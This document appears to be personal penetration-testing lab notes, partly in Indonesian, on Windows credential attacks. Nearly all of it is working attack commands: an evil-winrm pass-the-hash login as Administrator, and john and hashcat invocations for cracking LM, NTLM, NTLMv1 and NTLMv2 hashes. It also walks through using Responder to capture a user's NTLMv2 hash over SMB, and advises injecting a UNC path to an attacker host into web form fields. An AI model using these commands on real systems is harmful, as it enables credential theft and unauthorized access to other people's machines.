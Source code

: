 - evil-winrm
```bash
evil-winrm -i 192.168.199.212 -u Administrator -H 7a38310ea6f0027ee955abed1762964b
```

# LM vs NTLM (NTHash) vs NTLMv1 vs NTLMv2
LM: 299BD128C1101FD6
john --format=lm hash.txt 
hashcat -m 3000 -a 3 hash.txt

NTLM: 8846f7eaee8fb117ad06bdd830b7586c
john --format=nt hash.txt
hashcat -m 1000 -a 3 hash.txt

NTLMv1: u4-netntlm::kNS:338d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41:cb8086049ec4736c
john --format=netntlm hash.txt
hashcat -m 5500 -a 3 hash.txt

NTLMv2: admin::N46iSNekpT:08ca45b7d7ea58ee:88dcbe4446168966a153a0064958dac6:5c7830315c7830310000000000000b45c67103d07d7b95acd12ffa11230e0000000052920b85f78d013c31cdb3b92f5d765c783030
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt

NTLMv2 biasa dapet yg dari responder.


# Responder to steal NTLMv2 Hash. Case: Punya akses tapi gk punya credentials. Butuh credsnya, tapi low priv, gk ada mimikatz.
1. Kali set responder
```bash
sudo responder -v -I tun0
or
sudo responder -v -I tun0 -wd
```
2. User foothold low priv, query smb (KALO BUTUH PASSWORDNYA)
```cmd
C:\Windows\system32>dir \\192.168.119.2\test
```
3. Cek responder.
```
paul::FILES01:1f9d4c51f6e74653:795F138EC69C274D0FD53BB32908A72B:010100000000000000B050CD1777D801B7585DF5719ACFBA0000000002000800360057004D00520001001E00570049004E002D00340044004E004800550058004300340054004900430004003400570049004E002D00340044004E0048005500580043003400540049004300...
...951B57CB2F5546F7B599BC577CCD13187CFC5EF4790A001000000000000000000000000000000000000900240063006900660073002F003100390032002E003100360038002E003100310038002E0032000000000000000000 
```
4. Crack ntlmv2
```cmd
hashcat -m 5600 paul.hash /opt/wordlists/rockyou.txt --force
```
Selalu coba masukkin \\\\192.168.45.168\\asd di parameter filename or apapun di webform, yang kira-kira bakal ngeload
> WINDOWS SELALU ARAHKAN KE RESPONDER

